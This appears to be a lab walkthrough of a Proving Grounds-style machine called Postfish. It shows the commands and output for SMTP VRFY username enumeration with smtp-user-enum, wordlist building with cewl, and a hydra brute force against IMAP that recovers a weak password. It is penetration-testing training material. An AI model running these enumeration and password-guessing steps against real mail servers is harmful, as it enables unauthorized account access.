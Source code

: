 ## User enum
Visiting the website I was greated with needing to add postfish.off into dns.
I then located the team page which included the team members:
```
Claire Madison
Mike Ross
Brian Moore
Sarah Lorem
```

I used this script to generate usernames and place them into users.txt
https://raw.githubusercontent.com/jseidl/usernamer/master/usernamer.py

```smtp-user-enum
smtp-user-enum -M VRFY -U /home/kali/OPG/postfish/users.txt -t 192.168.55.137
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /home/kali/OPG/postfish/users.txt
Target count ............. 1
Username count ........... 395
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Mar 15 20:53:42 2023 #########
192.168.55.137: Claire.Madison exists
192.168.55.137: Mike.Ross exists
192.168.55.137: Brian.Moore exists
192.168.55.137: Sarah.Lorem exists
######## Scan completed at Wed Mar 15 20:55:23 2023 #########
4 results.

395 queries in 101 seconds (3.9 queries / sec)

```

```
cewl -d 5 -m 3 http://postfish.off/team.html -w /home/kali/OPG/postfish/cewl.txt
```
Depth: 5 Minimum word length: 3

```
hydra -L OPG/postfish/verifiedusers.txt -P OPG/postfish/cewl.txt imap://postfish.off
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-16 22:57:37
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 2565 login tries (l:19/p:135), ~161 tries per task
[DATA] attacking imap://postfish.off:143/
[STATUS] 96.00 tries/min, 96 tries in 00:01h, 2469 to do in 00:26h, 16 active
[STATUS] 64.00 tries/min, 192 tries in 00:03h, 2373 to do in 00:38h, 16 active
[STATUS] 47.28 tries/min, 368 tries in 00:07h, 2197 to do in 00:47h, 16 active
[STATUS] 48.66 tries/min, 768 tries in 00:15h, 1797 to do in 00:37h, 16 active
[143][imap] host: postfish.off   login: sales   password: sales
```